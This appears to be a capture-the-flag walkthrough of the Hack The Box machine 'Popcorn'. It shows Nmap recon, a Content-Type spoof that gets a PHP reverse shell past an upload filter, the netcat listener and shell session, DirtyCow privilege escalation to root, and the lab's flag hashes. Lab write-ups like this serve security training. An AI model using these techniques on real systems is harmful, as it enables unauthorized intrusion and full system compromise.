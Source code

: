 # Popcorn
## Reconnaissance

* Performed TCP scans using Nmap. (Did not include UDP and other TCP scans)
```
sudo nmap -sC -sS -sV -A 10.10.10.6
```
* The results of the Nmap show that TCP port 22 and 80 are open. Target machine OS is Ubuntu Linux.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|WAP|printer|phone|storage-misc|remote management
Running (JUST GUESSING): Linux 2.6.X|2.4.X (93%), AVM embedded (92%), Canon embedded (92%), Google Android 2.X (92%), LG embedded (92%), Epson embedded (91%), Avocent embedded (90%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:avm:fritz%21box_fon_wlan_7240 cpe:/h:canon:imagerunner_advance_c3320i cpe:/h:canon:imagerunner_advance_c3325 cpe:/o:google:android:2.3.5 cpe:/h:lg:n4b2nd4 cpe:/h:epson:wf-2660 cpe:/o:linux:linux_kernel:2.4.20
Aggressive OS guesses: Linux 2.6.17 - 2.6.36 (93%), AVM FRITZ!Box FON WLAN 7240 WAP (92%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (92%), Android 2.3.5 (Linux 2.6) (92%), Linux 2.6.30 (92%), Linux 2.6.32 (92%), Linux 2.6.35 (92%), LG N4B2ND4 NAS device (Linux 2.6) (92%), Epson WF-2660 printer (91%), Linux 2.4.20 (Red Hat 7.2) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Web enumeration
```
dirbuster for http://10.10.10.6
Threads:30
extensions:php,aspx,asp,txt
not recursive
```
* Webscan Results
```
```

* Access http://10.10.10.6/test.php, which runs phpinfo
```
System 	Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
Build Date 	May 2 2011 22:56:18
Server API 	Apache 2.0 Handler
Virtual Directory Support 	disabled
Configuration File (php.ini) Path 	/etc/php5/apache2
Loaded Configuration File 	/etc/php5/apache2/php.ini
Scan this dir for additional .ini files 	/etc/php5/apache2/conf.d
additional .ini files parsed 	/etc/php5/apache2/conf.d/gd.ini, /etc/php5/apache2/conf.d/mysql.ini, /etc/php5/apache2/conf.d/mysqli.ini, /etc/php5/apache2/conf.d/pdo.ini, /etc/php5/apache2/conf.d/pdo_mysql.ini
PHP API 	20041225
PHP Extension 	20060613
Zend Extension 	220060519
Debug Build 	no
Thread Safety 	disabled
Zend Memory Manager 	enabled
IPv6 Support 	enabled
Registered PHP Streams 	https, ftps, compress.zlib, compress.bzip2, php, file, data, http, ftp, zip
Registered Stream Socket Transports 	tcp, udp, unix, udg, ssl, sslv3, sslv2, tls
Registered Stream Filters 	zlib.*, bzip2.*, convert.iconv.*, string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed 
```

## Delivery & Exploitation

* Access http://10.10.10.6/torrent. Runs Torrent Hoster.
* Tried uploading php file but failed. Uploaded kali linux torrent file instead.
![image](https://raw.githubusercontent.com/kookiecrack/images/main/torrent.png)

* Tried uploading php file for screenshot image but failed. Used burp suite to intercept the HTTP packets.
```
Change 'Content-Type: application/x-php' to 'Content-Type: image/png' and use Repeater to send HTTP POST request.
Upload success!
Access reverse php shell from http://10.10.10.6/torrent/uploads
```
![image](https://raw.githubusercontent.com/kookiecrack/images/main/Burp.png)

* Reverse php web shell obtained

```
kali@kali:~/HTB/popcorn$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 45090
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:09:19 up  7:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation
* Google search for linux 2.6.31 local privilege escalation revealed potential 'dirtycow' exploit. 
* Successfully priv esc using [FireFart's exploit](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
* Transferred exploit using wget and python SimpleHTTPServer
```

$ cat user.txt
7f7996604baa821f2644bb0da8fa1cd8
firefart@popcorn:/tmp# whoami
whoami
firefart
firefart@popcorn:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/tmp# cat /root/root.txt
cat /root/root.txt
9cb1e1150e46be0cc7c0247c7dff7b9a
firefart@popcorn:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:33:3f  
          inet addr:10.10.10.6  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:333f/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:333f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1276815 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1171211 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:326685100 (326.6 MB)  TX bytes:286452794 (286.4 MB)
          Interrupt:18 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1288 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1288 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:131698 (131.6 KB)  TX bytes:131698 (131.6 KB)
```
